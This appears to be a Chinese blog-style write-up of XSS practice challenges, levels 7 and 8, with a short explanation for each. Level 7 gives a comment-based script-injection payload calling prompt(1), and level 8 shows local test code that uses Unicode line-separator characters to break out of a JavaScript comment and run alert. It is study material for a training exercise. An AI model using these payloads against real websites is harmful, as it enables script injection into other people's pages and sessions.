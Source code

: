 

## level 7

主要是利用js的注释，注释掉多余的html字符串，这个在括号里面的注释我是真的没想到。

但也比较容易想通，就直接上payload好了

```html
"><script>/*#*/prompt(1/*);#"*/);/*#*/</script>
```

![](xss练习记录\13.png)



## level 8

比较头疼的一题，搜了writeup，说是可以利用`\u2028`、`\u2029`来替代换行符

- 是U+2028，是Unicode中的行分隔符。
- 是U+2029，是Unicode中的段落分隔符。

由于根本手打不出这两个字，所以我选择了在本地上测试一下。发现了一些奇怪的东西

代码是这样的

```html
<body>
</body>
<script>                                    
	
	function escape(input) {
		input = input.replace(/[\r\n</"]/g, '');
		return input;

	}
	var s = '\u2028alert(/xss/);\u2029-->';
	var scr = document.createElement('script');
	scr.innerText='// console.log("'+s+'");';
	document.body.appendChild(scr);

</script>

```
